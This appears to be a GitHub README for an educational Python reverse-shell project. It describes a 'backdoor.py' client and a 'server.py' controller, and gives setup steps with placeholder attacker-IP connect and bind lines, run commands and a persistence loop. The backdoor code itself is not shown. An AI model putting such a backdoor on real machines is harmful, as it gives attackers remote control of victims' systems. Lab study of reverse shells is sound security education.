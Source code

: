 # Python Reverse Shell (Educational Use Only)

## Overview

This project implements a basic reverse shell in Python using TCP sockets. It is designed for educational purposes to demonstrate concepts related to remote command execution, client-server architecture, and post-exploitation techniques in cybersecurity.

## Features

- Reverse shell connection from client to server
- Remote command execution capability
- JSON-based communication for reliability
- Simple TCP socket implementation
- Reconnection loop for basic persistence

## File Structure

- `backdoor.py`: Client script that connects to the server and executes received commands
- `server.py`: Server-side controller that listens for incoming connections and sends commands

## Usage

### 1. Setup the Server

Edit `server.py` to include your IP address:

```python
sock.bind(('YOUR_IP_ADDRESS', 5555))
```

Then run the server:

```bash
python server.py
```

### 2. Setup the Client

Edit `backdoor.py` to point to your server IP:

```python
s.connect(('YOUR_IP_ADDRESS', 5555))
```

Then run the client:

```bash
python backdoor.py
```

### 3. Interaction

Once the client connects to the server, the operator can issue shell commands remotely. Type `quit` to terminate the session.

## Test Environment Recommendation

- Use two virtual machines in an isolated environment (e.g., VirtualBox)
- Ensure both machines are on the same internal or host-only network
- The client should be run from the target machine, and the server from the attacker's machine

## Educational Objectives

- Learn the fundamentals of reverse shells
- Understand socket programming in Python
- Explore basic post-exploitation techniques in a controlled environment

## Requirements

- Python 3.x
- Basic knowledge of networking and cybersecurity



